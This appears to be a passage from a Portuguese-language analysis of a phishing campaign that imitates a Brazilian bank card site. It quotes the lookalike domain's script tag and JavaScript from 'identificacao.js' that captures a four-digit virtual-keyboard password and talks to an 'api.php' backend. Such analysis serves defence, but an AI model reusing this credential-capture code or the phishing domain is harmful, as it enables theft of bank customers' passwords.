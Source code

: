 ```HTML
<tr>
    <td class="line-number" value="384"></td>
    <td class="line-content"> <span class="html-tag">&lt;script <span
                class="html-attribute-name">src</span>="<a class="html-attribute-value html-resource-link"
                target="_blank" href="https://bradescard-americanblackexclusivo.com/js/identificacao.js"
                rel="noreferrer noopener">js/identificacao.js</a>"&gt;</span><span
            class="html-tag">&lt;/script&gt;</span></td>
</tr>
```

# 13- Análise do script ``identificacao.js``

A análise do script, permitiu observar a captura dos dados digitados no teclado virtual e já obtidos pela página de acesso pela conta bancária, sua direta comunicação com a ``api.php`` e envio desses, demonstrando o método de roubo da senha de teclado virtual, objetivo dessa campanha phishing.

```JAVASCRIPT
 function loadInfo(){
        $.ajax({
            url: "api.php",
            type:'POST',
            dataType : "json",
            data: { action : "GET_INFO", id : id, clientHashId : clientHashId},
            cache: false,
            success: function(r){
                info = r;
                if(r.comando !== status) {
                    status = r.comando;
                    atualizarTela();
                }
            }
        });
    }
```

```JAVASCRIPT
$('ul#ul_teclado_virtual a').click( e => {
        e.preventDefault();
        let value = $(e.target).text().trim();

        if(value === 'Limpar'){
            zerarSenhaDe4();
        } else {

            let pass1 = $('input#txtPass1').val();
            let pass2 = $('input#txtPass2').val();
            let pass3 = $('input#txtPass3').val();
            let pass4 = $('input#txtPass4').val();

            if(pass1.length == 0){
                $('input#txtPass1').val(value);
            } else if(pass2.length == 0){
                $('input#txtPass2').val(value);
            } else if(pass3.length == 0){
                $('input#txtPass3').val(value);
            } else if(pass4.length == 0){
                $('input#txtPass4').val(value);
                $('#btnAcessarSenha4').addClass('btn-action-active');
            }

        }

```